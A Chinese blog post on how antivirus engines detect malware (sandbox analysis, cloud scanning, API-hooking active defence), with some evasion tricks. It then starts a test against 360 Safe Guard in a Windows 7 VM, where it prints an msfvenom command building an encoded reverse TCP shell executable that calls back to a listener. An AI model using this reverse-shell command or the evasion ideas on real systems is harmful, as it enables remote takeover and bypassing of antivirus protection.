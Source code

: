 ## 动态分析

随着病毒和杀软的对抗日益增加,许多病毒都会给自己进行加密,这使得静态查杀已经不太有效果,
因此后来又出现了动态查杀. 这种方式是指在扫描一个可执行文件的时候,先将其导入到杀软虚拟出的
环境(沙盒)之中运行一段时间,并且与静态分析的方式结合起来. 在沙盒中恶意软件会解密自己,
最终露出狰狞的面目, 从而被静态分析出恶意的行为或者签名.

事实上动态分析是一件很复杂的事情,需要实时扫描上百万份文件,还要在虚拟化环境中运行它们,
并且检测所有的签名等等, 其同样也有局限性:

- 首先,扫描速度必须要非常快,因此在每次扫描中能执行的操作是有限的;
- 其次,因为沙盒环境是虚拟出来的,所以无法得知机器和恶意软件的特异性;
- 最后,虚拟本身有一些特征是可以被恶意软件感知到的.

## 云查杀

最近"云"的概念大家都玩得不亦乐乎,安全产商也不甘落后,推出了云查杀的概念. 
这种查杀方法用来发现新型的大规模部署的木马和后门饶有成效,其主要的思路是当某些可执行文件有可疑的行为,
比如后台安装服务,进程注入,修改系统目录里的文件等,就会将父文件上传到云,并纪录签名.
如果一个时间段内一定数量同样签名的文件被记录了同样的行为,那么就可以初步判断为恶意软件,
从而记录进黑名单列表中,保护其他打算执行这个文件的客户端免受进一步侵害. 
当然这也是有误报的,比如"QQ",谁叫企鹅老是在系统目录里乱搞呢,呵呵,不过那都是题外话了.

云查杀看似让黑产无处可躲,但其实也可以被绕过的,比如白名单或者动态更新签名.
曾经有过一种脑洞新奇的方法我很喜欢,就是恶意软件自身会先让自己膨胀,体积变得巨大,
这样可以使得一部分杀软会考虑网络原因而选择不上传该文件.

## 主动防御

所谓魔高一尺,道高一丈,在杀软和木马的对抗不断升级下,有的杀毒软件已经受够了"慢半拍"
的骂名,提出所谓"主动防御"的查杀方式. 当然安全产商也没提供相应的技术细节,
但根据我的经验来看应该是实时Hook了系统中一些关键的API调用,并给用户警告.
实践上来看,这种方式还是挺有效果的. 虽然不是没有办法绕过,但绕过的技术成本和时间成本提高了不少.

# 实践测试

了解了杀毒软件的基本工作原理,可以开始对其实时进行调戏了. 这里我选择用360安全卫士来
作为测试目标,因为它似乎占领了我国大部分PC用户的市场. 首先我在我的Windows7虚拟机里安装了
360安全卫士,细心地避免安装成全家桶. 安装完后重启,效果还是挺明显的,开机时间从10秒变成了30秒.

然后,先用msfvenom生成了一个反弹shell的木马:

```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp  LHOST=10.0.1.104 LPORT=4444 -e x86/shikata_ga_nai -i 5 -b '\x00' -f exe -o test360.exe
```

把`test360.exe`丢到windows7里用360扫描会被报告为木马,如下:

![360-1](//images2015.cnblogs.com/blog/676200/201607/676200-20160730140020763-2104431574.png)

事实上这种用工具生成的payload,早就在各大安全产商的数据库里了,丢到一些在线扫描的网站上也是分分钟被报毒:
